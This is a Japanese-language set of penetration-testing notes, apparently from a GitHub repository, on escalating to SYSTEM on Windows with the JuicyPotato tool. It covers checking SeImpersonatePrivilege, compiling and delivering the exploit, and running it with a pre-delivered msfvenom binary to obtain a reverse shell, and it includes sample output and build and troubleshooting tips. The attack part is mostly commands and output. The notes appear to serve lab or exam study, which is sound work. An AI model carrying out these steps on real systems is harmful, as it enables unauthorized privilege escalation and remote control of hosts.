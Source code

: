 # JuicyPotate

* ### 前提確認

```
whoami /priv
```

`SeImpersonatePrivilege`権限があることを確認

* ### 実行

https://github.com/ohpe/juicy-potato

juicy-potatoをvisual studioでコンパイルして、攻撃対象ホストに配送し、コマンドを実行する。

```cmd
C:\Users\Public\UsersPublicJuicyPotato.exe -t t -p C:\Users\Public\whoami.exe -l 5837

----
# 実行結果
C:\Users\Public>UjiycOptaot.exe -t t -p C:\Users\Public\whoami.exe -l 5837
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 5837
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

* -t：CreateProcessWithTokenの使用を指示する

* -pフラグで実行しようとするプログラムを指定

* -lフラグでCOMサーバーがリッスンするポートを任意に指定

* whoami.exeは任意のバイナリファイル(mafvenomで作成して事前配送すること）

  **※whoami単体できちんとリバースシェル取得できるかをまず確認する**



### x86でビルドする方法

* visualstudioのフォルダビューで`JuicyPotato.vcxprof`を開き、ConfigurationTypeがApplicationになっていることを確認する

  ![image-20230211134602822](img/JuicyPotato/image-20230211134602822.png)

* 構成プロパティ→リンカー→システムのサブシステムを変更する

  【変更前】Windows (/SUBSYSTEM:WINDOWS) 
  【変更後】コンソール (/SUBSYSTEM:CONSOLE)
  https://detail.chiebukuro.yahoo.co.jp/qa/question_detail/q13198063873

  https://learn.microsoft.com/ja-jp/cpp/build/reference/subsystem-specify-subsystem?view=msvc-170

  上記サイトを参照すると、win32文字モードアプリケーションに対する設定のよう。
  今回の修正をしたことでx64でのビルドが失敗する可能性があるので注意すること



### JuicyPotateのOS対応表

https://jlajara.gitlab.io/Potatoes_Windows_Privesc



### CLSIDの対応表

https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter/



### トラブルシュート

FTPで転送するときは必ずバイナリモードで

```cmd
C:\Users\Public>JuicyPotato.exe
JuicyPotato.exe
This version of C:\Users\Public\JuicyPotato.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.
```

